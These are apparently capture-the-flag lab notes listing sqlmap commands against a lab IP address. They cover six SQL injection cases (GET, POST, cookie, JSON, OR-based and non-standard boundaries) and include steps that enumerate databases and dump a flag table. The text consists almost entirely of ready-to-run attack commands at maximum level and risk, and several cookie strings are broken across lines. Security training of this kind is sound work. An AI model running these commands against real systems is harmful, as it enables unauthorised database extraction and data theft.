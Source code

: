 ___
# GET

```bash
sqlmap -u "http://83.136.254.47:49729/case1.php?id=1" --cookie="cookie=XSSisF  
un" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

- --dbs
- --tables -D testdb
- --dump -T flag1 -D testdb
# POST

```bash
sqlmap -u "http://83.136.254.47:49729/case2.php" --data='id=1' --method POST --cookie="cookie=XSSisFun" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Cookie

```bash
sqlmap -u "http://83.136.254.47:49729/case3.php" --cookie="cookie=XSSisFun; id=1" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# JSON

```bash
sqlmap -u "http://83.136.254.47:49729/case4.php" --data='{"id":1}' --method POST --cookie="cookie=XSSisFun" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# OR SQLi

```bash
sqlmap -u "http://83.136.254.47:49729/case5.php?id=1" --cookie="cookie=XSSisF  
un" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Non-standard boundaries

```bash
sqlmap -u "http://83.136.254.47:49729/case6.php?col=id" --cookie="cookie=XSSisF  
un" --level 5 --risk 3 -p col --batch --threads 10 --dbms=mysql --dbs
```